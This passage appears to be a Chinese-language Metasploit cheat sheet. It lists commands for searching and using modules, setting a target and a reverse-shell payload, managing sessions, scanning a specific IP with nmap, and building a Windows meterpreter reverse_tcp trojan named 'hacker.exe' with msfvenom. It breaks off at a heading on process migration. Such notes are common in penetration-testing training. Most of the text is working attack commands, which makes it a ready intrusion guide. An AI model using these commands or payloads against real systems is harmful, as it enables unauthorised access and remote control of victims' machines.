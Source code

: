 #### 查询模块

```bash
search portscan
search smb
```

#### 使用模块

```bash
use 5
#展示选项,标为yes的都是需要填写的
show options
#设置参设
set rhosts xxx.xxx.xxx.xx
#运行
run或者exploit
#返回上一级菜单
back
#查看攻击载荷
show payloads
#设置攻击载荷
set payload cmd/unix/reverse
#设置本地ip
set lhost 10.168.1.180
#查看活跃的session
sessions
#进入指定的session,例如 session1
sessions -i 1
#将session置于后台
background
#使用shell模式
shell
```

#### 在msf中使用nmap(需要root权限)

```bash
sudo msfconsole 
nmap -O -Pn 47.120.0.245
```

#### msf生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.58.133 LPORT=1234 -f exe > /home/kali/hacker.exe
```

#### msf设置监听

```
search multi/handler
```

#### msf设置进程迁移
